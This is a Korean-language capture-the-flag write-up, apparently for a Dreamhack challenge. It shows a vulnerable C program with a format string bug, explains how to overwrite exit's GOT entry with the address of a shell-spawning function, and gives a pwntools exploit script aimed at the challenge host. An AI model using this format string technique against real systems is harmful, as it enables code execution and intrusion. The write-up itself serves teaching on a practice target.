 # basic_exploitation_002

주어진 파일의 소스코드는 다음과 같다.   

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    read(0, buf, 0x80);
    printf(buf);

    exit(0);
}
```   
소스코드를 보면 main함수 printf(buf); 부분에서 FSB가 발생할 수 있다.   
따라서 FSB를 이용하여 exit함수의 got를 get_shell함수의 plt로 덮어주면 shell을 획득할 수 있다.   
<br/>

gdb에서 다음과 같이 exit함수의 got를 get_shell함수의 plt를 구할 수 있다.
image   

해당 주소들을 얻었으면 입력 값을 몇 번째 서식 문자열에서 참조하는 확인해봐야 한다.
image   


입력하고 바로 첫 번째 서식 문자에서 참조되는 것을 알 수 있다.   

이를 참조하여 페이로드를 구성하면 ```(exit_got) + (exit_got+2) + %2044c + %2$n + %32261c + %1$n```이다.

```
from pwn import *

exit_got = 0x804a024
#get_shell_plt = 0x804860a

p = remote("host1.dreamhack.games", 12316)

payload = p32(exit_got) + p32(exit_got+2) + "%2044c%2$hn%32261c%1$hn"

p.send(payload)
p.interactive()
```
